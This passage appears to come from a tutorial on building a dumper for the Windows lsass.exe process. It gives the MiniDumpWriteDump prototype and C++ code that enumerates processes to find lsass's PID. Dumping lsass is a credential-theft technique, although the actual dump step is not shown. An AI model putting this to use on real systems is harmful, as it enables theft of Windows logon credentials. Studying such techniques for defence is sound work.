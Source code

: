 So, how we can write a simple `lsass.exe` process dumper? We use `MiniDumpWriteDump`:        

```cpp
BOOL MiniDumpWriteDump(
  [in] HANDLE                            hProcess,
  [in] DWORD                             ProcessId,
  [in] HANDLE                            hFile,
  [in] MINIDUMP_TYPE                     DumpType,
  [in] PMINIDUMP_EXCEPTION_INFORMATION   ExceptionParam,
  [in] PMINIDUMP_USER_STREAM_INFORMATION UserStreamParam,
  [in] PMINIDUMP_CALLBACK_INFORMATION    CallbackParam
);
```

The `MiniDumpWriteDump` function is a Windows API function that creates a minidump file, which is a small snapshot of the application state at the time the function is called. This file can be useful for debugging purposes, as it contains the exception information, a list of loaded DLLs, stack information, and other system state information.      

First of all, we find `lsass.exe` process, via function like this:     

```cpp
int findMyProc(const char *procname) {

  HANDLE hSnapshot;
  PROCESSENTRY32 pe;
  int pid = 0;
  BOOL hResult;

  // snapshot of all processes in the system
  hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
  if (INVALID_HANDLE_VALUE == hSnapshot) return 0;

  // initializing size: needed for using Process32First
  pe.dwSize = sizeof(PROCESSENTRY32);

  // info about first process encountered in a system snapshot
  hResult = Process32First(hSnapshot, &pe);

  // retrieve information about the processes
  // and exit if unsuccessful
  while (hResult) {
    // if we find the process: return process ID
    if (strcmp(procname, pe.szExeFile) == 0) {
      pid = pe.th32ProcessID;
      break;
    }
    hResult = Process32Next(hSnapshot, &pe);
  }

  // closes an open handle (CreateToolhelp32Snapshot)
  CloseHandle(hSnapshot);
  return pid;
}
```
